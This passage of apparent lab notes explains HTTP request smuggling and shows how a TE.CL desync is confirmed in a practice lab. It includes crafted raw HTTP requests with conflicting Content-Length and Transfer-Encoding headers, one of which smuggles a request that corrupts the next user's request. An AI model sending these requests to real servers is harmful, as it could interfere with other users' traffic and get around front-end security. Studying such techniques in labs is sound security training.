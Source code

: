If the attack is successful, then everything from GET /404 onwards is treated by the back-end server as belonging to the next request that is received. This will cause the subsequent "normal" request to look like this:
```bash
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
Since this request now contains an invalid URL, the server will respond with status code 404, indicating that the attack request did indeed interfere with it

### PRACTITIONER Lab: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
Let's first try:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
\r\n
3\r\n
abc\r\n
X\r\n
```
In the response we get 400 Bad request and the message: `Invalid req`
That's a strong indication that the frontend is using TE

Let's now find out what the backend is using:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
\r\n
0\r\n
\r\n
X
```
And we see that the response is timing out, because the backend got 5 bytes and it still waits for the sixth byte to arrive i.e. it uses CL. At least that's a strong indication that it does in fact use CL
